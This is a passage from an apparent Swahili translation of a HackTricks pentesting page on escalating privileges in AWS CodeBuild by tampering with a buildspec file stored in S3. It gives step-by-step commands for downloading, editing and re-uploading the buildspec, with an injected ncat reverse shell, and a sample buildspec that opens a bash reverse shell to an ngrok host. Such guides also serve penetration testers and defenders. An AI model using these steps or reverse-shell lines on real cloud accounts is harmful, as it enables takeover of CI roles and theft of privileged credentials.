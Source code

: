 Kumbuka: kupandishwa vyeo kuna umuhimu tu ikiwa mfanyakazi wa CodeBuild ana jukumu tofauti, kwa matumaini lenye mamlaka zaidi, kuliko lile la mshambuliaji.
```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```
Unaweza kutumia kitu kama hiki **buildspec** kupata **reverse shell**:
```yaml:buildspec.yml
version: 0.2

phases:
build:
commands:
- bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
**Impact:** Moja kwa moja privesc kwa jukumu lililotumiwa na mfanyakazi wa AWS CodeBuild ambalo mara nyingi lina mamlaka ya juu.

> [!WARNING]
> Kumbuka kwamba buildspec inaweza kutarajiwa kuwa katika muundo wa zip, hivyo mshambuliaji atahitaji kupakua, kufungua, kubadilisha `buildspec.yml` kutoka kwenye saraka ya mzizi, kuzipa tena na kupakia.

Maelezo zaidi yanaweza kupatikana [here](https://www.shielder.com/blog/2023/07/aws-codebuild--s3-privilege-escalation/).

**Potential Impact:** Moja kwa moja privesc kwa majukumu ya AWS Codebuild yaliyoambatanishwa.

{{#include ../../../banners/hacktricks-training.md}}
